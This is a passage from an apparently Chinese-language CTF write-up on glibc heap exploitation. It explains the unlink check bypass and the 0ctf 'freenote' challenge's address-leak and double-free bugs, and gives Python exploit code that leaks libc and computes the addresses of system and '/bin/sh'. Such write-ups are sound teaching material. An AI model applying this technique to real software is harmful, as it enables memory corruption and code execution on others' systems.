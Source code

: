 [https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/comment-page-1/](https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/comment-page-1/)

除此之外还有个gdb工具可以帮助我们查看内存中堆的信息，这对我们调试程序会有很大的帮助:

[https://github.com/cloudburst/libheap](https://github.com/cloudburst/libheap)

等到对堆的基本概念了解的差多了就可以学习如何利用unlink来做到内存写了。在最早版本的unlink中对内存chunk是没有任何检测的，因此我们可以很容易的做到内存任意写。但现在版本的libc中会对free的那个chunk进行检测，这个chunk的前一个chunk的bk指针和这个chunk的后一个chunk的fd指针必须指向这个即将free的chunk才行。为了bypass这个检测，我们必须在内存中找到一个地址X指向P，然后将P的fd和bk指向X。最后再触发double free的unlink，就可以将P地址的值设置为X了。

![](http://img2.tuicool.com/ZBzM32.jpg!web)

我们这次使用0ctf中的freenote这道题来实践一下double free漏洞的利用。执行这个程序我能看到这其实就是一个note记事本程序。通过new note和delete note可以malloc()和free()内存。

```
$ ./freenote_x64 
== 0ops Free Note ==
1\. List Note
2\. New Note
3\. Edit Note
4\. Delete Note
5\. Exit
==================== 
```

但是这个程序有两个漏洞，一个是建立新note的时候在note的结尾处没有加"\0"因此会造成堆或者栈的地址泄露，另一个问题就是在delete note的时候，并不会检测这个note是不是已经被删除过了，因此可以删除一个note两遍，造成double free。

首先我们要泄露libc和heap在内存中的地址。因为note的结尾没有"\0"，因此在输出时会把后面的内容打印出来。因为freelist的头部保存在了libc的.bss段，因此我们可以见通过删除两个note再删除一个note，然后再建立一个新note的方法来泄露出libc在内存中的地址：

```
#!python
notelen=0x80

new_note("A"*notelen)
new_note("B"*notelen)
delete_note(0)

new_note("\xb8")
list_note()
p.recvuntil("0\. ")
leak = p.recvuntil("\n")

print leak[0:-1].encode('hex')
leaklibcaddr = u64(leak[0:-1].ljust(8, '\x00'))
print hex(leaklibcaddr)
delete_note(1)
delete_note(0)

system_sh_addr = leaklibcaddr - 0x3724a8
print "system_sh_addr: " + hex(system_sh_addr)
binsh_addr = leaklibcaddr - 0x23e7f1
print "binsh_addr: " + hex(binsh_addr) 
```
